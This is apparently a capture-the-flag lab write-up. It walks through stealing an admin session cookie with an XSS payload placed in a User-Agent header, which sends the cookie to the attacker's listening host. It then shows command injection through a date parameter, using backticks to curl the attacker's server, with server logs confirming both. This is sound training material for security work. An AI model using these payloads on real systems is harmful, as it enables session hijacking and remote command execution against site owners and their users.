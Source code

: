 ```html
POST /support HTTP/1.1
Host: 10.10.11.8:5000
Content-Length: 86
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.11.8:5000
Content-Type: application/x-www-form-urlencoded
User-Agent: <script>document.location='http://10.10.14.5/?'+document.cookie</script>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.11.8:5000/support
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

fname=raccoon&lname=raccoon&email=raccoon%40raccoon.com&phone=123123&message=raccoon<>
```

Typically I try to use an img this.src fetch combo to test XSS but after testing there was an issue having spaces in the XSS of User-Agent. I opted for script and document.location instead, then calling the hack detection by using a double bracket in the message field.

```bash
sudo python3 -m http.server 80

Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.8 - - [29/Mar/2024 00:30:38] "GET /?is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0 HTTP/1.1" 200 -
```

Well that would explain why my attempts to make valid parameters for dashboard failed. I can toss this into the Cookies section of the Storage tab within dev tools and access the dashboard now.

![admin dashboard]({{ page.img }}_5000_admin_dashboard.png)

## Command Injection

Intercepting this request reveals it sends the date parameter with a date attached. And I went out of my way to check what symbols are allowed and not allowed.

```html
date=2023-09-15

errors from:
'"|

expected response from:
/&&.,;:
```

And in my testing I decided to check using grave accents to curl my webserver.

```bash
date=1`curl+http%3a//10.10.14.5%3a8081/test`

httpserver 

Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
10.10.11.8 - - [29/Mar/2024 00:48:24] code 404, message File not found
10.10.11.8 - - [29/Mar/2024 00:48:24] "GET /test HTTP/1.1" 404 -
```
